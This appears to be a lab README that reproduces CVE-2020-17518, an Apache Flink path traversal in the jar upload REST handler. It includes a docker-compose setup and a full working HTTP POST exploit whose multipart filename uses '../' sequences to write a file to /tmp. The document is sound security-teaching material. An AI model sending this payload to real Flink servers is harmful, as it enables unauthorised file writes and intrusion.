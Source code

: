 # Apache Flink Upload Path Traversal (CVE-2020-17518)

Apache Flink is an open source stream processing framework with powerful stream- and batch-processing capabilities.

Apache Flink 1.5.1 introduced a REST handler that allows you to write an uploaded file to an arbitrary location on the local file system, through a maliciously modified HTTP HEADER.

References:

- https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4
- https://nvd.nist.gov/vuln/detail/CVE-2020-17518

## Environment Setup

Execute following commands to start a Apache Flink jobmanager 1.11.2:

```
docker-compose up -d
```

After the Apache Flink is started, visit `http://your-ip:8081` to view the homepage.

## Exploit

Use following request to upload a file to `/tmp/success`:

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--

```

![](1.png)